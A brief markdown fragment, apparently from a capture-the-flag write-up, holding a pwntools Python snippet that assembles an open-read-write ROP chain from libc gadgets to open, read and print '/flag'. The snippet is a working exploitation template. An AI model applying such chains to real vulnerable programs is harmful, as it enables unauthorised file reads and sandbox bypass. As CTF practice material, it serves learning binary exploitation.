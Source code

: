 ```python
## ORW_ROP
libc.address = libc_addr
libc_rop = ROP(libc)
rax = libc_rop.find_gadget(['pop rax','ret'])[0]
rdi = libc_rop.find_gadget(['pop rdi','ret'])[0]
rsi = libc_rop.find_gadget(['pop rsi','ret'])[0]
m = 0
try:
    rdx = libc_rop.find_gadget(['pop rdx','ret'])[0];m = 1
except:
    rdx = libc_rop.find_gadget(['pop rdx','pop rbx','ret'])[0]; m = 2
	# rdi = libc_base + 0xb503c;m=5
syscall = libc_rop.find_gadget(['syscall','ret'])[0]

orw_rop_addr = stack # ret to addr
buf = orw_rop_addr + 0xa0 + m*3*8
orw_rop  = p64(rax) + p64(2) + p64(rdi) + p64(buf) + p64(rsi) + p64(0) + p64(rdx) + p64(0)*m + p64(syscall)
orw_rop += p64(rdi) + p64(3) + p64(rsi) + p64(buf) + p64(rdx) + p64(0x100)*m + p64(libc.sym['read'])
orw_rop += p64(rdi) + p64(1) + p64(rsi) + p64(buf) + p64(rdx) + p64(0x100)*m + p64(libc.sym['write'])
orw_rop += b'/flag'.ljust(0x10,b'\x00')
```

![image](assets/image-20231221210852-252cv2x.png)

‍
